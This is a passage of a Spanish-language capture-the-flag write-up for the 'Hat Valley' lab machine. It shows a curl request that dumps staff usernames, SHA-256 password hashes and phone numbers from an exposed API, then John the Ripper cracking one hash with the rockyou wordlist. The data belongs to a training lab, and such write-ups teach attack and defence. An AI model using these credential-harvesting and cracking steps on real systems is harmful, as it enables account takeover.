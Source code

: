 ```shell
❯ curl -s http://hat-valley.htb/api/staff-details | jq
[
  {
    "user_id": 1,
    "username": "christine.wool",
    "password": "6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",
    "fullname": "Christine Wool",
    "role": "Founder, CEO",
    "phone": "0415202922"
  },
  {
    "user_id": 2,
    "username": "christopher.jones",
    "password": "e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",
    "fullname": "Christopher Jones",
    "role": "Salesperson",
    "phone": "0456980001"
  },
  {
    "user_id": 3,
    "username": "jackson.lightheart",
    "password": "b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",
    "fullname": "Jackson Lightheart",
    "role": "Salesperson",
    "phone": "0419444111"
  },
  {
    "user_id": 4,
    "username": "bean.hill",
    "password": "37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",
    "fullname": "Bean Hill",
    "role": "System Administrator",
    "phone": "0432339177"
  }
]
```

Usando john encontramos la contraseña de christopher.jones

## Explotación 

```shell
❯ cat hashes
christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f

❯ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hashes --format=Raw-SHA256
Using default input encoding: UTF-8
Will run 12 OpenMP threads
chris123         (christopher.jones)     
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```
